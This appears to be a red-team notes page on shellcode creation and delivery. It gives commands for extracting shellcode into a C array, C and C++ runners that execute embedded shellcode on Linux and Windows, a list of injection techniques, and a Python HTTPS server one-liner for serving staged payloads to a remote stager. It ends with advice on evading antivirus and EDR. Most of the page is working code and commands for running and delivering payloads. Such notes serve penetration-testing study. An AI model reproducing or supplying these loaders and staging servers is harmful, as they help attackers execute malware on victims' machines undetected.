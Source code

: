 # Shellcode Creation
## Linux

Generating shellcode for a Linux operating system: Tips.

>[!note]
>When generating MSFVenom shellcode to be executed by a stager, use the `raw` format, as the shellcode will be downloaded directly into memory.

```shell
# Copy and save executable code as c-string. (Useful to convert slivers to shellcode, etc. when not using B64 or similar)

objcopy -j .text -O binary <compiled executable> <text section to save to (still bin)>
xxd -i <text section> 
```

```c
// Example code for Linux direct execution

#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        <shellcode goes here>
    };
    
    (*(void(*)())message)();
    return 0;
}
```

## Windows

Generating shellcode for a Windows operating system: Tips

```cpp
// Example code for Windows direct execution

#include <windows.h>
char stager[] = {
	<shellcode goes here> 
};
int main()
{
    DWORD oldProtect;
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
    int (*shellcode)() = (int(*)())(void*)stager;
    shellcode();
}
```

# Shellcode Injection Techniques
- Direct Injection
- Process Hollowing
- Thread Injection
- DLL Injection


# Staged Payloads
We can generate staged payloads with [[MSFVenom]]. 

This means we are going to have to serve the payload ourselves as well. This example shows an HTTPS stage listener. 
```shell
# Spin up an HTTPS server for serving our shellcode to the stager

openssl req -new -x509 -keyout <certificate outfile> -out <same outfile as before> -days 365 -nodes

python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='<certificate we just generated>',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

An example C# stager can be found here: https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs. However, you should be able to perform HTTPS requests in your language of preference to fetch the raw shellcode yourself. 

>[!danger] Detection Risk
>Shellcode is inherently risky. Use the tactics described in [[Evasion]] to help your code avoid detection by AV/EDR/XDR.

